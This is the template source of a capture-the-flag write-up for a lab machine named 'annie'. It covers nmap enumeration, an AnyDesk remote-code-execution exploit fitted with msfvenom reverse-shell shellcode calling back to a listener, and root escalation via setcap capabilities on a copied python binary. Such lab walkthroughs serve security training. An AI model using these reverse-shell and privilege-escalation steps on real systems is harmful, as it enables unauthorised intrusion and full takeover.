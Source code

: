 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an nmap scan to identify open ports.")}}

{{console("nmap -T5 -p- 10.10.143.23", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-07 23:19 CET
Nmap scan report for 10.10.143.23
Host is up (0.14s latency).
Not shown: 64958 closed tcp ports (conn-refused), 574 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
7070/tcp  open  realserver

Nmap done: 1 IP address (1 host up) scanned in 551.85 seconds")}}

{{text("We find 3 open ports. Let\"s scan them further.")}}

{{console("nmap -sC -sV -p 22,7070", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-07 23:32 CET
Nmap scan report for 10.10.143.23
Host is up (0.15s latency).

PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.32 seconds")}}

{{header("Shell as annie", "shell-as-annie")}}

{{text("We now see that the service at port 7070 is a <code class=\"bg-gray-300 rounded-md px-1 dark:bg-neutral-700\">AnyDesk Client</code>.")}}

{{text("Unfortunately, we don\"t know the correct version but we still can blindly test known exploits. Let\"s search for one.")}}

{{link("https://www.exploit-db.com/exploits/49613", "https://www.exploit-db.com/favicon.ico", "AnyDesk 5.5.2 - Remote Code Execution")}}

{{text("We copy the exploit, but we need to modify it slightly.")}}

{{text("We change the IP to the correct one and edit the shell code by using the command provided.")}}

{{console("msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.6.6 LPORT=4444 -b \"\\x00\\x25\\x26\" -f python -v shellcode", "...
shellcode =  b\"\"
shellcode += b\"\\x48\\x31\\xc9\\x48\\x81\\xe9\\xf6\\xff\\xff\\xff\\x48\"
shellcode += b\"\\x8d\\x05\\xef\\xff\\xff\\xff\\x48\\xbb\\x1b\\xb2\\xed\"
shellcode += b\"\\x71\\x59\\xe1\\x69\\x44\\x48\\x31\\x58\\x27\\x48\\x2d\"
shellcode += b\"\\xf8\\xff\\xff\\xff\\xe2\\xf4\\x71\\x9b\\xb5\\xe8\\x33\"
shellcode += b\"\\xe3\\x36\\x2e\\x1a\\xec\\xe2\\x74\\x11\\x76\\x21\\xfd\"
shellcode += b\"\\x19\\xb2\\xfc\\x2d\\x53\\xe8\\x6f\\x42\\x4a\\xfa\\x64\"
shellcode += b\"\\x97\\x33\\xf1\\x33\\x2e\\x31\\xea\\xe2\\x74\\x33\\xe2\"
shellcode += b\"\\x37\\x0c\\xe4\\x7c\\x87\\x50\\x01\\xee\\x6c\\x31\\xed\"
shellcode += b\"\\xd8\\xd6\\x29\\xc0\\xa9\\xd2\\x6b\\x79\\xdb\\x83\\x5e\"
shellcode += b\"\\x2a\\x89\\x69\\x17\\x53\\x3b\\x0a\\x23\\x0e\\xa9\\xe0\"
shellcode += b\"\\xa2\\x14\\xb7\\xed\\x71\\x59\\xe1\\x69\\x44\"")}}

{{text("We replace the shell code with the one we generated, set up a listener and execute the exploit.")}}

{{text("We should get a connection.")}}

{{image("../../static/writeups/annie/images/000001.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("We list all the files with <code class=\"bg-gray-300 rounded-md px-1 dark:bg-neutral-700\">SUID</code> set.")}}

{{console("find / -perm -4000 2>/dev/null", "/sbin/setcap
/bin/mount
/bin/ping
/bin/su
/bin/fusermount
/bin/umount
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
...")}}

{{text("<code class=\"bg-gray-300 rounded-md px-1 dark:bg-neutral-700\">/sbin/setcap</code> looked interesting as I haven\"t seen this file before.")}}

{{text("I found this article that will be helpful to us.")}}

{{link("https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/", "https://www.hackingarticles.in/wp-includes/images/w-logo-blue-white-bg.png", "Linux Privilege Escalation using Capabilities")}}

{{text("Following the article, we have to copy python binary to our home directory and raise our privilages of it using the <code class=\"bg-gray-300 rounded-md px-1 dark:bg-neutral-700\">setcap</code>.")}}

{{console("", "cp /usr/bin/python3 ~
setcap cap_setuid+ep /home/annie/python3
./python3 -c \"import os; os.setuid(0); os.system(\"/bin/bash\")\"
")}}

{{text("After those command, we should become root and be able to read the last flag.")}}

{{image("../../static/writeups/annie/images/000002.jpg")}}

{{script()}}